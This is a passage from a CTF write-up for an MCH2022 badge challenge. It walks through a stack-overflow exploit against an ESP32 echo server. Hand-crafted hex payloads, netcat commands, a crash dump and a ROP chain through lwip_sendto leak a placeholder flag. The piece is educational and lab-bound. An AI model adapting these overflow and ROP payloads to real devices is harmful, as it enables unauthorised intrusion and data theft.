00000010: 61 73 64 66 61 73 64 66 61 73 64 66 61 73 64 66 asdfasdfasdfasdf
00000020: 41 34 41 34 41 35 41 35 41 36 41 36 41 37 41 37 A4A4A5A5A6A6A7A7
00000030: a3 73 0d 80 d0 f1 fb 3f 43 32 43 32 43 33 43 33 .s.....?C2C2C3C3
00000040: 42 34 42 34 42 35 42 35 42 36 42 36 42 37 42 37 B4B4B5B5B6B6B7B7
00000050: a3 73 0d 80 f0 f1 fb 3f 44 32 44 32 44 33 44 33 .s.....?D2D2D3D3
00000060: 43 34 43 34 43 35 43 35 43 36 43 36 43 37 43 37 C4C4C5C5C6C6C7C7
00000070: a3 73 0d 80 10 f2 fb 3f 45 32 45 32 45 33 45 33 .s.....?E2E2E3E3
00000080: 44 34 44 34 44 35 44 35 44 36 44 36 44 37 44 37 D4D4D5D5D6D6D7D7
00000090: a3 73 0d 80 30 f2 fb 3f 46 32 46 32 46 33 46 33 .s..0..?F2F2F3F3
000000a0: 45 34 45 34 45 35 45 35 45 36 45 36 45 37 45 0a E4E4E5E5E6E6E7E.
Let’s give this a shot!
cat payload1-nocrash.bin | nc -N 192.168.178.50 1337 | dd bs=1 skip=22 | xxd -g 1
00000000: 61 73 64 66 61 73 64 66 61 73 64 66 61 73 64 66 asdfasdfasdfasdf
00000010: 61 73 64 66 61 73 64 66 61 73 64 66 61 73 64 66 asdfasdfasdfasdf
00000020: 90 0a fb 3f 00 39 40 3f 41 36 41 36 41 37 41 37 ...?.9@?A6A6A7A7
00000030: a3 73 0d 80 d0 f1 fb 3f 43 32 43 32 43 33 43 33 .s.....?C2C2C3C3
00000040: 42 34 42 34 42 35 42 35 42 36 42 36 42 37 42 37 B4B4B5B5B6B6B7B7
00000050: a3 73 0d 80 f0 f1 fb 3f 44 32 44 32 44 33 44 33 .s.....?D2D2D3D3
00000060: 43 34 43 34 43 35 43 35 43 36 43 36 43 37 43 37 C4C4C5C5C6C6C7C7
00000070: a3 73 0d 80 10 f2 fb 3f 45 32 45 32 45 33 45 33 .s.....?E2E2E3E3
00000080: 44 34 44 34 44 35 44 35 44 36 44 36 44 37 44 37 D4D4D5D5D6D6D7D7
00000090: a3 73 0d 80 30 f2 fb 3f 46 32 46 32 46 33 46 33 .s..0..?F2F2F3F3
000000a0: 45 34 45 34 45 35 45 35 45 36 45 36 45 37 45 0a E4E4E5E5E6E6E7E.
Yep, that’s our payload back, mostly unscathed! And the app didn’t crash - we can repeat this ad nauseam :) Pat yourself on the shoulder, we came a long way!
Note
The dd bs=1 skip=22 in the chain is just there to remove the Connection accepted! message the badge sends us upon connection.
Warning
If this payload doesn’t work for you and instead crashes the badge, chances are you have a different stack pointer than I had and have not yet adapted the payload to your specific stack pointer value.
Crafting an exploit, act 2: Let’s make it dance! Maybe.#
Okay wow, that’s a huge success! Now let’s see if we can actually make the app execute code of our choosing! Let’s put some simple code into our scratch buffer and see if we can return into it.
Copy payload1-nocrash.bin into payload2-codeonstack.bin and open it in the hex editor. As for code to execute, let’s start simple and mimick a simple return 0 which we copy from do_echo:
400d7388 0c 02 movi.n a2,0x0
400d738a 1d f0 retw.n
The buffer starts at 0x3ffbf170, so let’s use that as our first return address. So we change the first 4 bytes of the payload to contain our instructions, and the first return address to 0xbffbf170, remembering that the top two bits must be 0b10 to encode the register window shift amount:
xxd -g1 payload2-codeonstack.bin
00000000: 0c 02 1d f0 61 73 64 66 61 73 64 66 61 73 64 66 ....asdfasdfasdf
00000010: 61 73 64 66 61 73 64 66 61 73 64 66 61 73 64 66 asdfasdfasdfasdf
00000020: 41 34 41 34 41 35 41 35 41 36 41 36 41 37 41 37 A4A4A5A5A6A6A7A7
00000030: 70 f1 fb bf d0 f1 fb 3f 43 32 43 32 43 33 43 33 p......?C2C2C3C3
00000040: 42 34 42 34 42 35 42 35 42 36 42 36 42 37 42 37 B4B4B5B5B6B6B7B7
00000050: a3 73 0d 80 f0 f1 fb 3f 44 32 44 32 44 33 44 33 .s.....?D2D2D3D3
00000060: 43 34 43 34 43 35 43 35 43 36 43 36 43 37 43 37 C4C4C5C5C6C6C7C7
00000070: a3 73 0d 80 10 f2 fb 3f 45 32 45 32 45 33 45 33 .s.....?E2E2E3E3
00000080: 44 34 44 34 44 35 44 35 44 36 44 36 44 37 44 37 D4D4D5D5D6D6D7D7
00000090: a3 73 0d 80 30 f2 fb 3f 46 32 46 32 46 33 46 33 .s..0..?F2F2F3F3
000000a0: 45 34 45 34 45 35 45 35 45 36 45 36 45 37 45 0a E4E4E5E5E6E6E7E.
Sweet, let’s test this!
cat payload2-codeonstack.bin | nc -N 192.168.178.50 1337 | dd bs=1 skip=22 | xxd -g 1
Guru Meditation Error: Core 0 panic'ed (IllegalInstruction). Exception was unhandled.
Core 0 register dump:
PC : 0x7ffbf170 PS : 0x00060530 A0 : 0x800d73a3 A1 : 0x3ffbf1f0
A2 : 0x32443244 A3 : 0x33443344 A4 : 0x34443444 A5 : 0x35443544
A6 : 0x36443644 A7 : 0x37443744 A8 : 0xbffbf170 A9 : 0x3ffbf1d0
A10 : 0x00000001 A11 : 0x33433343 A12 : 0x34433443 A13 : 0x35433543
A14 : 0x36433643 A15 : 0x37433743 SAR : 0x0000000e EXCCAUSE: 0x00000000
EXCVADDR: 0x00000000 LBEG : 0x4000c2e0 LEND : 0x4000c2f6 LCOUNT : 0xffffffff
Sadface :(
Well, what happened there? The core did jump to our desired address… almost. Except for the top two bits, which we cannot control via callN/retw and which therefore stayed at 0b01, turning our address from 0x3ffbf170 into 0x7ffbf170.
Welp, looks like the easy way of putting code into the stack won’t work. Lucky for us, there’s plenty of code already there for us to use :)
Crafting an exploit, act 3: Using what’s already there#
If we can’t put our own code onto the stack, we can still use the code that’s already there. The app is over 1MiB, there must be a sequence we can use somewhere in there.
What we’re looking for is a sequence of instructions that does a lot of what we need and doesn’t do a lot more before hitting a retw instruction. We can then craft a return address on our stack that “returns” right to the start of that sequence (which may well be in the middle of a completely unrelated function, guess how much I care). If the sequence doesn’t do all that we need, we have more stack frames we can use to jump to other sequences until we reach our goal.
You probably know what I’m talking about here - this method is called “Return-oriented programming” or ROP for short, and the sequences we’re looking for are called “ROP gadgets”.
Finding the Inspector 4#
Since our goal is to call lwip_send with parameters of our choosing, let’s look for a place that calls it:
lwip_send XREF[6]: Entry Point(*),
do_echo:400d737f(*),
echo_server:400d7667(*),
lwip_sendto:40100f35(*),
lwip_write:401011f6(*),
.debug_frame::000125f8(*)
lwip_sendto uses a stack variable for the flags parameter:
40100f2d d8 c1 l32i.n a13,a1,0x30=>Stack[0x30]
40100f2f cd 04 mov.n a12,size
40100f31 bd 03 mov.n a11,data
40100f33 ad 02 mov.n a10,s
40100f35 65 15 00 call8 lwip_send
40100f38 2d 0a mov.n s,a10
40100f3a 86 52 00 j LAB_40101088 ; jumps to a retw
lwip_write simply sets it to zero which is what we need:
401011eb d2 a0 00 movi a13,0x0
401011ee 40 c4 20 mov a12,size
401011f1 30 b3 20 mov a11,data
401011f4 ad 02 mov.n a10,s
401011f6 65 e9 ff call8 lwip_send
401011f9 2d 0a mov.n s,a10
401011fb 1d f0 retw.n
Normally it would be a no-brainer to pick lwip_write for our gadget, specifically the instruction sequence starting at 0x401011eb, but I’d like to make a point and choose the more complicated path by picking lwip_sendto :)
You see, we’re not gonna need that instruction at 0x40100f2d if we can control a13 directly. And a13 used to be called a5 one stack frame ago because of the moving window. So we can control, say, frame D’s a13 simply by controlling frame C’s a5.
So we have almost all we need:
Control over
a2..a4for parameters set up by the gadgetControl over
a13for the parameters not set up by the gadgetThe values of the
sizeanddataparameters (our flag and its size)
The last piece to the puzzle is the value of s or sock, but we can dump that out by patching the app once again. A few re-runs of the app reveal that sock is always 0x37 so we can hardcode that value too.
Could this be it?#
So let’s make another copy of payload1-nocrash.bin called payload3-allyourbase.bin and edit it thusly:
frame C a0 = 0x80100f2f (our gadget, with top two bits = 0b10)
frame C a5 = 0 (flags)
frame D a2 = 0x37 (s - the socket)
frame D a3 = 0x3ffb5358 (data - our flag)
frame D a4 = 0x26 (size - size of the flag)
Note
Wonder why we’re setting frame C a0 to our gadget when we want to jump there from frame D? I did too, when at first I used frame D a0 and nothing worked ;)
The trick is we don’t want to jump to the gadget from frame D, we want to jump there from frame C so that our gadget runs within frame D. That way its a2..a4 will be set as we need them, and frame C’s a5 will have shifted into a13.
The payload now should look somewhat like this:
00000000: 61 73 64 66 61 73 64 66 61 73 64 66 61 73 64 66 asdfasdfasdfasdf
00000010: 61 73 64 66 61 73 64 66 61 73 64 66 61 73 64 66 asdfasdfasdfasdf
00000020: 41 34 41 34 41 35 41 35 41 36 41 36 41 37 41 37 A4A4A5A5A6A6A7A7
00000030: 2f 0f 10 80 d0 f1 fb 3f 43 32 43 32 43 33 43 33 /......?C2C2C3C3
00000040: 42 34 42 34 42 35 42 35 42 36 42 36 42 37 42 37 B4B4B5B5B6B6B7B7
00000050: a3 73 0d 80 f0 f1 fb 3f 37 00 00 00 58 53 fb 3f .s.....?7...XS.?
00000060: 43 34 43 34 00 00 00 00 43 36 43 36 43 37 43 37 C4C4....C6C6C7C7
00000070: a3 73 0d 80 10 f2 fb 3f 45 32 45 32 45 33 45 33 .s.....?E2E2E3E3
00000080: 26 00 00 00 44 35 44 35 44 36 44 36 44 37 44 37 &...D5D5D6D6D7D7
00000090: a3 73 0d 80 30 f2 fb 3f 46 32 46 32 46 33 46 33 .s..0..?F2F2F3F3
000000a0: 45 34 45 34 45 35 45 35 45 36 45 36 45 37 45 0a E4E4E5E5E6E6E7E.
With trembling fingers, we enter the command to send it to our target… just kidding, what’s a shell history for? <hits cursor-up and edits the last command>
cat payload3-allyourbase.bin | nc -w 5 192.168.178.50 1337 | dd bs=1 skip=22 | xxd -g 1
00000000: 61 73 64 66 61 73 64 66 61 73 64 66 61 73 64 66 asdfasdfasdfasdf
00000010: 61 73 64 66 61 73 64 66 61 73 64 66 61 73 64 66 asdfasdfasdfasdf
00000020: 90 0a fb 3f 00 39 40 3f 41 36 41 36 41 37 41 37 ...?.9@?A6A6A7A7
00000030: 2f 0f 10 80 d0 f1 fb 3f 43 32 43 32 43 33 43 33 /......?C2C2C3C3
00000040: 42 34 42 34 42 35 42 35 42 36 42 36 42 37 42 37 B4B4B5B5B6B6B7B7
00000050: a3 73 0d 80 f0 f1 fb 3f 37 00 00 00 58 53 fb 3f .s.....?7...XS.?
00000060: 43 34 43 34 00 00 00 00 43 36 43 36 43 37 43 37 C4C4....C6C6C7C7
00000070: a3 73 0d 80 10 f2 fb 3f 45 32 45 32 45 33 45 33 .s.....?E2E2E3E3
00000080: 26 00 00 00 44 35 44 35 44 36 44 36 44 37 44 37 &...D5D5D6D6D7D7
00000090: a3 73 0d 80 30 f2 fb 3f 46 32 46 32 46 33 46 33 .s..0..?F2F2F3F3
000000a0: 45 34 45 34 45 35 45 35 45 36 45 36 45 37 45 0a E4E4E5E5E6E6E7E.
000000b0: 66 6c 61 67 7b 6e 6f 74 5f 61 5f 72 65 61 6c 5f flag{not_a_real_
000000c0: 66 6c 61 67 7d 00 00 00 00 00 00 00 00 00 00 00 flag}...........
000000d0: 00 00 00 00 00 00 ......
And there it is - our tasty, tasty flag!
Tip
There are so many ways to skin this ROP cat (you monsters!) and this is only one of them. For exercise, you could try some other approaches:
Make your life easy as you should and use
lwip_writefor the gadget.Set up
a10..a13and return directly to thecall8 lwip_send.Forgo the gadgets altogether, set up
a2..a5directly and return right to the start oflwip_send.
Recap#
Let’s review what all we just accomplished, shall we?
We poked around the app, found a way to crash it and a debug console.
We loaded the app into Ghidra, understood the app initialization and discovered that it’s a simple TCP echo server.
We reverse engineered the echo server and understood the nature and exploitability of the bug that crashes it.
We learned about movable register windows and weirdly distributed stack frames on the Xtensa architecture.
We patched the ESP app to extract internal values via the debug console.
We crafted multiple exploit payloads by hand, using nothing but a hex editor.
We discovered a ROP gadget and used it to our advantage.
WE GOT THE $&/)!”$(”§$%)( FLAG! \o/
That’s quite a lot to accomplish and you can be proud of yourself. I know I am :)
Closing words#
Thanks for making it through to the end of this writeup. Really, I mean it. The RST source for this grew into a 57KiB behemoth so it’s quite a mouthful - thank you for bearing with my ramblings. I tried to make this piece both insightful and entertaining and am hoping I succeeded at both.
Mad props must go first of all to my partners in crime at Team Bratzenamt: DoubleJ, ove, Y0Gi, Jo, Jo2 and Jake.
Many thanks also go to the MCH2022 CTF team for creating a very diverse and interesting CTF that kept us puzzling throughout the camp, and to the MCH2022 Badge team for providing a ridiculously complex and feature-rich badge that will keep us occupied for a long time!
That’s all for now. See you at the next CTF! o/
Footnotes#
- 1
After MCH2022 was over, DoubleJ found out that there’s a bleeding edge version of the plugin that does support decompilation: The fork by Ebiroll appears to have decompiler support; you may have to merge a pending PR to make it work, or again if you trust DoubleJ you can use this pre-built release. Nevertheless, we’ll keep working without the decompiler in this writeup because that’s what I did during the CTF and hardship builds character ;)
- 2
I should mention that I knew exactly nothing about ESP programming before embarking on this challenge, so if this sounds like CptObvs to you please bear with me and consider it a lesson in approaching an unknown target ;)
- 3
Any of
a1,a2ora3may in theory serve as stack pointer but let’s go witha1for simplicity.- 4
I’m sure it’s required by law to make a stupid Inspector Gadget joke when talking about ROP.